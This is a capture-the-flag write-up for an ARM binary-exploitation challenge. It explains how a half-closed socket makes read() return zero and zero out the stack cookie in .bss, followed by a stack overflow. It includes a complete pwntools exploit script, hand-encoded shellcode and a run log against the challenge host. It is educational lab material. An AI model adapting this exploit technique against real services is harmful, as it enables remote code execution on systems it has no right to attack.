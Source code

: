 I didn't finish the exploit during the race but this is my post-pwnyrace exploit / analysis. It was an interesting arm challenge that b0bb used to display a couple of fun quirks.
- qemu-user doesn't apply nx/aslr/pie etc by default. 
- arm stores its stack-cookie in the .bss compared to f.ex. the gs/fs register on x86
- the POSIX-trick of half-closing the connection to make `read()` return zero, f.ex. via socket.shutdown() in pwntools (thanks ZetaTwo)

I was aware of the two first quirks and the latter was in the back of my head but didn't hit me until we got the hint during the race :)

The first bug was if `read()` returns zero in the following code, there will be an out-of-bounds write of 8 zero bytes.
```
    res = read(0, in_buf, 32u);
    *(_QWORD *)&in_buf[8 * (res + 0x1FFFFFFF)] = 0LL;
```
More exactly, the above calculation will end up pointing to `.bss:00022008` which is the stack cookie.
```
.bss:00022008                 AREA .bss, DATA, ALIGN=3
.bss:00022008                 ; ORG 0x22008
.bss:00022008                 EXPORT __stack_chk_guard
.bss:00022008 __stack_chk_guard % 4                   ; DATA XREF: LOAD:00010234↑o
.bss:00022008                                         ; sub_10538+4↑o ...
.bss:00022008                                         ; Copy of shared data
.bss:0002200C byte_2200C      % 1                     ; DATA XREF: sub_105A0+4↑o
.bss:0002200C                                         ; sub_105A0+8↑r ...
.bss:0002200D                 ALIGN 0x10
.bss:00022010 ; char in_buf[]
.bss:00022010 in_buf          % 1                     ; DATA XREF: sub_10654+7C↑o
.bss:00022010                                         ; sub_10654+98↑o ...
```
In short, using the POSIX-trick we can zero-out the stack-cookie in the .bss, making it predictable.

The second bug was an ordinary stackoverflow. We can write numbers past the static buffer that's allocated on the stack. This allows us to control the value of the stack-cookie in the stack too, by setting it to zero we pass the check below and get pc-control.
```
 →    0x107a0                  cmp    r2,  r3 // you shall not pass
      0x107a4                  beq    0x107ac
      0x107a8                  bl     0x10478 <__stack_chk_fail@plt>
```

Once we have pc-control we have to do something like `system("./flag_submitter likvidera")` to win.

We control 32 bytes at `.bss 0x220010`, NX is not enabled so we can run shellcode there. Considering the length of our command and the size-limit, a small shellcode-stub will do.

ASLR is not enabled but the libc was loaded at a different base on the remote system, so I had to leak the `libc.read()` pointer from the `.got`table.

Finally we just use our shellcode-stub to setup our command passed to system() while considering that we need to branch from 32-bit arm code to 16-bit thumb-code in the libc.

To produce the small stub of arm shellcode we can use `kstool` from the keystone-engine.
```
## cat system.asm | kstool arm
# set r0 to point to our cmd in the .bss
# set pc to system+1
pop {r0, pc}
cmd: .asciz "./flag_submitter likvidera"
```

Exploit steps are:
- leak remote libc address by dumping the .got table
- set stack-cookie both in the .bss and the stack to zero to pass the stack-cookie check
- write a <= 32byte shellcode-stub to the .bss
- populate the stack with the address to our cmd in the .bss and the address to system
- half-close the connection via socket.shutdown() to get pc-control that eventually calls `system("./flag_submitter likvidera")`

Final exploit:
``` python
#! /usr/bin/env python2

from pwn import *
import array
import time
import sys
import os

context.terminal = ['rxvt-unicode', '-e', 'sh', '-c']
context.log_level = 'info'

def sendnum(r, num):
  r.readuntil('<<')
  r.sendline(str(num))
  time.sleep(.1)

def leak_stack(r):
  stack = array.array('i',(int(0x21fd4) for i in range(0,30))) # 'spray' chall11.got.read
  stack[16] = 0               # set stack-cookie to zero
  stack[18] = int(0x22010)    # pc - shellcode stub
  stack[20] = int(0x000106C8) # pop pc - chall11.write()
  for n in stack:
    sendnum(r, n)

def pwn_stack(r, system):
  stack = array.array('i',(int(0x22014) for i in range(0,30))) # 'spray' cmd offset
  stack[16] = 0             # set stack-cookie to zero
  stack[18] = int(0x22010)  # pc - shellcode stub
  stack[20] = system        # pop pc - system()
  for n in stack:
    sendnum(r, n)

def write_leak_sc(r):
  '''
  # cat leak.asm | kstool arm
  mov r0, #1
  mov r2, 8
  pop {r1, pc} 
  '''
  payload = "\x01\x00\xa0\xe3\x08\x20\xa0\xe3\x02\x80\xbd\xe8".ljust(32, '\x00')
  r.send(payload)

def write_pwn_sc(r):
  '''
  # cat system.asm | kstool arm
  pop {r0, pc}
  cmd: .asciz "./flag_submitter likvidera"
  '''
  payload = "\x01\x80\xbd\xe8\x2e\x2f\x66\x6c\x61\x67\x5f\x73\x75\x62\x6d\x69\x74\x74\x65\x72\x20\x6c\x69\x6b\x76\x69\x64\x65\x72\x61\x00".ljust(32, '\x00')
  r.send(payload)

def trigger(r):
  r.readuntil('<<')
  r.shutdown()
  
def pwn():
  if sys.argv[1] == "r":
    r = remote('challenge.pwny.racing', 11535)
    if len(sys.argv) > 2:
      leak_stack(r)
      write_leak_sc(r)
    else:
      pwn_stack(r, system=-9501491)
      write_pwn_sc(r)
  else:
    r = remote('127.0.0.1', 3333)
    if len(sys.argv) > 2:
      leak_stack(r)
      write_leak_sc(r)
    else:
      pwn_stack(r, system=-9468723)
      write_pwn_sc(r)
  trigger(r)
  r.interactive()

if __name__ == '__main__':
  pwn()
```
```
[+] Opening connection to challenge.pwny.racing on port 11535: Done
[*] Switching to interactive mode
 << 
██╗   ██╗ ██████╗ ██╗   ██╗    ██╗      ██████╗ ███████╗███████╗██╗
╚██╗ ██╔╝██╔═══██╗██║   ██║    ██║     ██╔═══██╗██╔════╝██╔════╝██║
 ╚████╔╝ ██║   ██║██║   ██║    ██║     ██║   ██║███████╗█████╗  ██║
  ╚██╔╝  ██║   ██║██║   ██║    ██║     ██║   ██║╚════██║██╔══╝  ╚═╝
   ██║   ╚██████╔╝╚██████╔╝    ███████╗╚██████╔╝███████║███████╗██╗
   ╚═╝    ╚═════╝  ╚═════╝     ╚══════╝ ╚═════╝ ╚══════╝╚══════╝╚═╝

Unfortunately someone else already submitted the flag. Better luck next time.
/home/ctf/redir.sh: line 2:   199 Segmentation fault      (core dumped) ./chall
[*] Closed connection to challenge.pwny.racing port 11535
[*] Got EOF while reading in interactive
```
